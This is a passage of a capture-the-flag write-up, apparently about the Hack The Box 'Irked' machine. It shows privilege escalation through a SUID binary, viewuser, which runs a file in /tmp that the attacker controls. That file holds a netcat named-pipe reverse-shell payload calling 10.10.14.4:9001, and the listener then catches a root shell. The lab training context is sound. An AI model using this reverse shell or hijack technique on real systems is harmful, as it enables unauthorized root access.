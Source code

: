 Found two routes to try.
- Using `video` membership to capture `root`'s screen.
- `/usr/bin/viewer` is unknown SUID binary.

I tried to fetch the `root`'s screen image by capturing `/etc/fb0`, but nothing came up.

### SUID binary - `viewuser`

Let's check what this binary is.

```bash
djmardov@irked:/tmp$ file /usr/bin/viewuser
/usr/bin/viewuser: setuid ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=69ba4bc75bf72037f1ec492bc4cde2550eeac4bb, not stripped
```

Let's run it for test.

```bash
djmardov@irked:/tmp$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2025-03-08 05:06 (:0)
djmardov pts/0        2025-03-08 07:37 (10.10.14.4)
sh: 1: /tmp/listusers: not found
```

It seems that it's retrieving logon session.
After that, it tries to run `/tmp/listusers`, but encounters an error "not found".

Let's create the file with reverse shell payload.

```bash
djmardov@irked:/tmp$ cat listusers
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 9001 >/tmp/f



djmardov@irked:/tmp$ chmod +x listusers
```

Then I ran the `viewuser` binary again after setting up a listener.

```bash
djmardov@irked:/tmp$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2025-03-08 05:06 (:0)
djmardov pts/0        2025-03-08 07:37 (10.10.14.4)
```

Then the listener soon spawns a shell.

```bash
┌──(kali㉿kali)-[~/htb/irked]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.117] 34710
# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
# whoami
root
```

I got a `root` shell.